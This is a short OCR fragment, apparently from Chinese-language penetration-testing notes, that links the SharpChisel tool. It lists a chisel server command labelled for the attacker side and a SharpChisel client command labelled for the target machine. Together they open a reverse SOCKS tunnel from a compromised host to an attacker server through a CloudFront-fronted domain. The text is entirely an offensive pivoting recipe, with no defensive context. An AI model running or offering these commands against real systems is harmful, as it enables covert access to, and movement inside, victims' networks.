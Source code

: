 	https ://github.com/shantanu561993/SharpChisel
	攻击端执行
	>./chisel server -p 8080 --key "private" --auth "user:pass" --reverse --proxy "https://www.google.com"
	靶机执行
	>SharpChisel.exe client --auth user:pass https://redacted.cloudfront.net R:1080:socks